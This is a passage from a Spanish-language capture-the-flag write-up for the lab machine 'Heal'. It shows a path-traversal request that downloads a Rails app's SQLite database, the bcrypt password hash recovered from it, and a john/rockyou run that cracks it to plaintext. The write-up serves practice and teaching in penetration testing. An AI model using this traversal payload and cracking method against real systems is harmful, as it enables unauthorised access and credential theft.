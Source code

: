~~~ bash
# SQLite. Versions 3.8.0 and up are supported.
#   gem install sqlite3
#
#   Ensure the SQLite 3 gem is defined in your Gemfile
#   gem "sqlite3"
#
default: &default
  adapter: sqlite3
  pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
  timeout: 5000

development:
  <<: *default
  database: storage/development.sqlite3

# Warning: The database defined as "test" will be erased and
# re-generated from your development database when you run "rake".
# Do not set this db to the same as development or production.
test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
~~~

Solicitaremos el archivo `development.sqlite3`

~~~ bash
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1
~~~

En la respuesta podremos identificar el siguiente registro

~~~ sqlite
ralph@heal.htb$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG2024-09-27 07:49:31.6148582024-09-27 
~~~


## Hash Cracking

Guardaremos el hash en un archivo `hash.txt`

~~~ sqlite
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
~~~

Intentaremos crackear el hash con `john`, y veremos que

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
147258369        (?)     
1g 0:00:00:15 DONE (2025-05-16 13:57) 0.06353g/s 32.02p/s 32.02c/s 32.02C/s pasaway..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
